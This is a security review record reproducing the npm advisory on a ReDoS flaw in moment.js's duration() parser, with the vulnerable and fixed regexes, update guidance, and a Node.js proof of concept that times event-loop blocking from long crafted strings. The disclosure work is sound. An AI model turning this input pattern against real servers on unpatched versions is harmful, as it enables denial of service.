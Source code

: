 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/moment
Review-Date: '2016-01-26'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Please update to version 2.11.2 or greater. If you are unable to update more information is available below.   A fix [has been made available in a pull request](https://github.com/moment/moment/pull/2939). Do not allow untrusted user input into `moment.duration()` or truncate the length of the allowed input to reduce blocking potential.  in moment.js change line 1819 from  `var aspNetRegex = /(\-)?(?:(\d*)[. ])?(\d+)\:(\d+)(?:\:(\d+)\.?(\d{3})?)?/;`   to   `var aspNetRegex = /^(\-)?(?:(\d*)[. ])?(\d+)\:(\d+)(?:\:(\d+)\.?(\d{3})?(?:\d*)?)?$/;`
### Details
moment is vulnerable to regular expression denial of service when user input is passed unchecked into moment.duration() blocking the event loop for a period of time.  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]  It's not a huge amplification it takes about 25k characters to get 1.1 seconds however that's well under most servers max request size so it's certainly exploitable.  The regular expression in question   moment/2.10.6/moment.js ``` 1679     var aspNetRegex = /(\-)?(?:(\d*)\.)?(\d+)\:(\d+)(?:\:(\d+)\.?(\d{3})?)?/; ```   ### Proof of concept ``` var moment = require('moment');  var genstr = function (len, chr) {     var result = "";     for (i=0; i<=len; i++) {         result = result + chr;     }      return result; }   for (i=20000;i<=10000000;i=i+10000) {     console.log("COUNT: " + i);     var str = '-' + genstr(i, '1')     console.log("LENGTH: " + str.length);     var start = process.hrtime();     moment.duration(str)      var end = process.hrtime(start);     console.log(end); } ```  ### Results ``` $ node moment.js COUNT: 20000 LENGTH: 20002 [ 0, 618931029 ] COUNT: 30001 LENGTH: 30003 [ 1, 401413894 ] COUNT: 40002 LENGTH: 40004 [ 2, 437075303 ] COUNT: 50003 LENGTH: 50005 [ 3, 824664804 ] COUNT: 60004 LENGTH: 60006 [ 5, 651335262 ] ```  ### Timeline: - 10/26/2015 - Initial Discovery - 10/26/2015 - Maintainers notified via email - 12/16/2015 - Maintainers notified via email again - 2/2/2016 - Added information to fix from pull request - 2/3/2016 - 
<br><br>• Affected Versions: <2.11.2
<br>• Patched Versions: >=2.11.2
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
